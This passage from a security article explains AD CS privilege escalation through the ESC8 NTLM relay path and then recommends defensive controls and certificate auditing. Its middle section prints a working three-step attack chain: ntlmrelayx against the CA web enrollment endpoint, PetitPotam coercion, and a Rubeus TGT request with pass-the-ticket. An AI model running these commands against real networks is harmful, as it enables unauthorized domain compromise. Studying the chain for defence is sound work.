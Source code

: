 Certificate Authorities (CAs) have permissions that secure various actions within AD CS. The ManageCA permission grants administrative privileges, allowing modifications to persistent configuration data, including the ability to enable the EDITF\_ATTRIBUTESUBJECTALTNAME2 flag. The ManageCertificates permission, on the other hand, enables the approval of pending certificate requests, potentially bypassing the manager approval requirement.

### **NTLM Relay to Active Directory Certificate Services HTTP Endpoints: An Escalation Path – ESC8**

AD CS supports several HTTP-based enrollment methods through additional server roles. However, these endpoints are vulnerable to NTLM relay attacks, allowing attackers to impersonate authenticated users and request certificates based on vulnerable certificate templates. This attack vector can result in domain compromise, especially when combined with misconfigured templates that allow domain computer enrollment and client authentication.

**1) NTLM Relay Setup**

```javascript
root@kali:~# impacket-ntlmrelayx -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template <vulnerable_template>
```

**2) Coerce the authentication via MS-ESFRPC EfsRpcOpenFileRaw function with petitpotam**

```javascript
root@kali:~# python3 petitpotam.py -d '<domain_fqdn>' -u '<domain_user>' -p '<domain_user_password>' <attacker_ip> <target_ip>
```

**3) Use the certificate with Rubeus to request a TGT**

```javascript
PS C:\temp> .\Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
```

## **Defensive Measures and Incident Response**

#### **Preventative Controls and Best Practices**

To enhance the security of AD CS, organizations should implement preventative controls and adhere to best practices. These measures include configuring proper access control for certificate templates, enabling manager approval, requiring authorized signatures, and ensuring secure PKI object access control. Additionally, organizations should enforce HTTPS or disable HTTP-based enrollment interfaces and audit their AD CS architecture and certificate templates regularly.

#### Detecting and Mitigating Privilege Escalation Vulnerabilities

Detecting and mitigating privilege escalation vulnerabilities in AD CS requires a comprehensive approach. Organizations should leverage tools and scripts, such as PSPKIAudit and Get-CertRequest, to audit and triage certificates associated with compromised accounts. Incident responders should not only reset passwords and reimage compromised machines but also invalidate any certificates tied to compromised accounts to prevent long-term credential theft.

### Incident Response: Beyond Password Resets and Reimaging
